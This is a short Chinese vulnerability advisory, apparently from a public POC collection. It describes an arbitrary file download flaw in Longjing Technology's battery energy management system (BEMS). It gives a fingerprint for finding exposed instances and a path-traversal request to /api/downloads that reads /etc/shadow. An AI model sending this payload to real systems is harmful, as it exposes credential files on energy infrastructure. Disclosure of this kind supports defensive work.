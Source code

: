 # 龙璟科技 电池能量BEMS downloads 任意文件下载漏洞

## 漏洞描述

龙璟科技 电池能量BEMS 存在接口可任意文件下载获取服务器任意文件信息

## 漏洞影响

```
龙璟科技 电池能量BEMS
```

## 网络测绘

```
title=电池能量管理系统 BEMS
```

## 漏洞复现

登陆页面

![img](./images/202202101906850.png)

验证POC

```plain
/api/downloads?fileName=../../../../../../../../etc/shadow
```

![img](./images/202202101906628.png)